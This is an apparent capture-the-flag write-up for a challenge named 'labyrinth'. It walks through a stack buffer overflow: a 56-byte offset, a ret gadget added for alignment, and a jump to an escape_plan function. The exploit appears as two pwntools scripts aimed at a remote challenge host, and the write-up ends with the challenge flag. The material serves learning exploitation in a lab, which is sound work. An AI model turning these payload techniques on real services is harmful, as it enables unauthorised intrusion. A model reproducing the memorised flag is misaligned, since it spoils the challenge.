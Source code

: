 # labyrinth (WEB)

You find yourself trapped in a mysterious labyrinth, with only one chance to escape. Choose the correct door wisely, for the wrong choice could have deadly consequences.

## Writeup

1. After debugging with ghidra, we can conclude two things
    1.1 There are two inputs, one is comparing first input with `69` or `069`.
    1.2 And we can simply overflow second input.

2. First try

2.1 Check offset using `cyclic` function in pwntools, it is `56`.
2.2 Second is the function address of `escape_plan`. we will get it using `x escape_plan` from `gdb`.

After making the payload, I have created a simple script.
```
from pwn import *

#target = process("./labyrinth")
target = remote("139.59.176.230", 31613)


payload = 'A' * 56
payload += p64(0x401255)

target.sendlineafter(">>", "69")
target.sendlineafter(">>", payload)
target.interactive()
```

Unfortunately, it didn't work. 
Now, as it is 64 bit binary, we can use return-oriented exploits. So I find the `ret` address from the binary using `ropper`

`ropper -f ./labyrinth`

And then I got the address of `ret`: `0x401016`.

Adding that to the script.

```
from pwn import *

#target = process("./labyrinth")
target = remote("139.59.176.230", 31613)


payload = 'A' * 56
payload += p64(0x401016)
payload += p64(0x401255)

target.sendlineafter(">>", "69")
target.sendlineafter(">>", payload)
target.interactive()
```

Remember, `ret` address is before the `excape_plan` address, because it is stack, which means the arguments are in reverse order.

Run the script and boom, we get our flag.

## Flag:

`HTB{3sc4p3_fr0m_4b0v3}`
